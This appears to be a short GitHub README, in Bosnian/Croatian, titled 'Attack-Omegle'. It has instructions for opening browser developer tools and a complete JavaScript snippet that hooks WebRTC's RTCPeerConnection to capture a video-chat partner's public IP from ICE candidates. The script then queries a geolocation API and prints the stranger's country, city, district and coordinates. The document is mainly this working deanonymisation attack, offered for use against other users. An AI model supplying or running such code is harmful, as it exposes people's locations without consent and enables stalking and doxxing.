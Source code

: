 # Attack-Omegle
bandicam 2021-12-16 23-09-19-491.jpg

Ima te u cosku na desnoj strani browzera 3 tackice koje idu ovako:" ... " i vi kliknite na te tackice pa idite na vise alata i alati za razvoj inzenjera.
Takoder prije toga morate u ovaj kod unjeti kljuc koji ce te dobiti na: https://app.ipgeolocation.io/
Code:
----------------------------------------------------
const apiKey = "OVDJE NAPISATI TVOJ API KLJUC";

window.oRTCPeerConnection =
window.oRTCPeerConnection || window.RTCPeerConnection;

window.RTCPeerConnection = function (...args) {
const pc = new window.oRTCPeerConnection(...args);

pc.oaddIceCandidate = pc.addIceCandidate;

pc.addIceCandidate = function (iceCandidate, ...rest) {
const fields = iceCandidate.candidate.split(" ");

const ip = fields[4];

if (fields[7] === "srflx") getLocation(ip);

return pc.oaddIceCandidate(iceCandidate, ...rest);
};

return pc;
};

const getLocation = async (ip) => {
let url = `https://api.ipgeolocation.io/ipgeo?apiKey=${apiKey}&ip=${ip}`;
await fetch(url).then((response) =>
response.json().then((json) => {
const {
city,
district,
-----------------------------------------------------------------------------------
state_prov,
country_name,
latitude,
longitude,
} = json;
const output = `
---------------------
Country: ${country_name}
State: ${state_prov}
City: ${city}
District: ${district}
Lat / Long: (${latitude}, ${longitude})
IP: ${ip}
---------------------
`;
console.log(output);
})
);
};
